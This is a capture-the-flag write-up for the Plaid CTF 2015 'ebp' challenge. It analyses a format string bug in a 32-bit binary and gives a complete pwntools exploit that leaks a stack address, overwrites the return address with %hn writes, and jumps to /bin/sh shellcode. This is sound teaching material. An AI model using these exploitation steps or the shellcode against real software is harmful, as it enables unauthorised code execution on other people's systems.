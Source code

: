 #Plaid CTF 2015 Writeup:
##### Pwnable: 160 points 
##### Name: ebp
##### Description:
*nc 52.6.64.173 4545* 

*Download: %p%o%o%p.*

Running file on ebp:
>```bash
> $ file ebp
> ebp: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=4e8094f9986968cd856db5093810badbb0749fde, not stripped
>```

Checksec:
>```bash
>gdb-peda$ checksec
>CANARY    : disabled
>FORTIFY   : disabled
>NX        : disabled
>PIE       : disabled
>RELRO     : Partial
>```

A 32 binary and it seems like the NX flag is disabled which means we can execute shellcode

Analyzing the assembly the vulnerability lies within the code for *make_response*:
>```assembly
>gdb-peda$ disas make_response
>Dump of assembler code for function make_response:
>   0x080484fd <+0>:	push   ebp
>   0x080484fe <+1>:	mov    ebp,esp
>   0x08048500 <+3>:	sub    esp,0x18
>   0x08048503 <+6>:	mov    DWORD PTR [esp+0x8],0x804a080
>   0x0804850b <+14>:	mov    DWORD PTR [esp+0x4],0x400
>   0x08048513 <+22>:	mov    DWORD PTR [esp],0x804a480
>   0x0804851a <+29>:	call   0x80483f0 <snprintf@plt>
>   0x0804851f <+34>:	leave  
>   0x08048520 <+35>:	ret    
>End of assembler dump.
>```

The C code for that looks something like this:
>```C
> char input[1024];  //&input is 0x804a080
> char output[1024]; //&output is 0x804a480
> int make_response(){
>   return snprintf(output,0x400,input);
>}
>```

where input and output are global variables

So it seems that this is a case of a format string vulnerability. 

Which makes sense since the description hints at %p %o %o %p

To be safe we assume there is aslr enabled on the server. We also need to utilize the format string to gain an arbitrary write and gain control flow of the program.

#####1. ASLR
  A way to defeat aslr is to use the format string vulnerability to leak an address of the stack out to us.
  We can do so by using the *%p* format 
  
#####2. Control flow
  Since a format string vulnerability also gives us the ability to write to the stack with the *%n* format we can utilize this to write to an address on the stack. If the buffers where our input was stored on the stack we can simply wrap around the stack into our buffers and use our input as addresses, however since our buffers are global buffers they are instead stored in the bss segment of the program.
  
  To remedy this we first use part 1 and leak out a stack address, then we use a saved frame pointer (ebp) to write to somewhere lower on the stack. What we want on the stack is something that we actually want to write to, the *return address* location. We use the %hn to write the size of a short to the stack which maintains the integrity of the 4 most significant bytes, this works because we know the return address is also on the stack with the ebp. Doing so we create a pointer to the return address.
>```python
>r.send('%4$p\n') 
>
>addr = int(r.recv(0xa),16)+(OFFSET) #offset is the offset to the return address
>log.info('stack: %x'%addr)
>addr = addr&0xFFFF #we take only last 4 bytes so that we can make use the %hn format
>
>r.send('%.{0!s}u%4$hn\n'.format(addr)) ##write those bytes
>```

So now we have a pointer to the location of the return address, so we simply need to wrap around to that pointer and write to it. We wrap around to our written address and overwrite the previous return address, and have it point to our buffer in the bss. Also we know that on our text segment and bss segment starts with 0x0804 which is why we can have it pivot to the buffer by writing only the size of a *short*.
>```python
>lower = bufaddr&0xffff
>r.send(shellcode+'%.{0!s}u%12$hn\n'.format(lower-len(shellcode)))
>```

Putting it together:

__Note:__ I used pwntools for this exploit but should be simple enough to convert to a regular python exploit
```python
from pwn import *

context.log_level = 'info'
r = remote('52.6.64.173',4545)

bufaddr = 0x804a080
OFFSET = 4 

shellcode ="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

r.send('%4$p\n') 

addr = int(r.recv(0xa),16)+(OFFSET)
log.info('stack: %x'%addr)
addr = addr&0xFFFF 

r.send('%.{0!s}u%4$hn\n'.format(addr))
lower = bufaddr&0xffff
r.send(shellcode+'%.{0!s}u%12$hn\n'.format(lower-len(shellcode)))

r.interactive()
```
flag is *who_needs_stack_control_anyway?*
> more information about format strings: https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf
